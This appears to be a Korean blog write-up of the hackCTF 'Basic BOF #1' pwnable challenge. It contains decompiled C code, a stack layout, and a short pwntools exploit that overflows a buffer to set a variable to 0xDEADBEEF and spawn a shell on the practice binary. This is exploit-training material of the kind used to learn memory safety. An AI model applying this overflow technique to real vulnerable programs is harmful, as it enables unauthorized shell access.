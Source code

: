 ```yaml
---
layout: post
title:  "[hackCTF]Basic BOF #1"
date:   2020-02-09
categories: c python
---
```

hackCTF pwnable 첫번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)

## ida
```c
  int __cdecl main(int argc, const char **argv, const char **envp)
  {
    char s; // [esp+4h] [ebp-34h]
    int v5; // [esp+2Ch] [ebp-Ch]

    v5 = 67305985;
    fgets(&s, 45, stdin); // s에 45바이트 입력 받음
    printf("\n[buf]: %s\n", &s);
    printf("[check] %p\n", v5);
    if ( v5 != 67305985 && v5 != -559038737 ) // v5가 특정 두 값이 아니면
      puts("\nYou are on the right way!"); // "You are on the right way!" 출력
    if ( v5 == -559038737 ) // v5가 특정 값이면
    {
      puts("Yeah dude! You win!\nOpening your shell...");
      system("/bin/dash"); // 쉘을 띄울 수 있다!
      puts("Shell closed! Bye.");
    }
    return 0;
```
##보호기법 체크  
![0101](https://drive.google.com/uc?id=1CqTVqx5cQEIn_xQpeUh2mQMNKCf5ZosJ)

***
메모리 구조를 정리해보자.

| ebp |          |
|-----|----------|
| ... |          |
| v5 (67305985) | esp+0x2C |
| ... |          |
| s   | esp+0x4  |
| ... |          |
| esp | esp+0    |


우리가 직접 수정할 수 있는 건 s인데 v5 값을 바꿔야 한다.  
payload를 v5까지 덮을 수 있도록 만들자.


## exploit.py
```python
  #!/usr/bin/python
  from pwn import *

  p = process('./bof_basic')

  payload = "A"*(0x2c-0x4)+p32(0xDEADBEEF)

  p.sendline(payload)

  p.interactive()
```
-559038737는 hex로 0xDEADBEEF다. p32 방식으로 패킹해서 payload를 만들면 끝.

![0102](https://drive.google.com/uc?id=1DCHfkrbOkWFKlbtl9krspfNhFJzKnpQU)


p32 : little endian 방식으로 패킹해줌 (u32 : 언패킹)
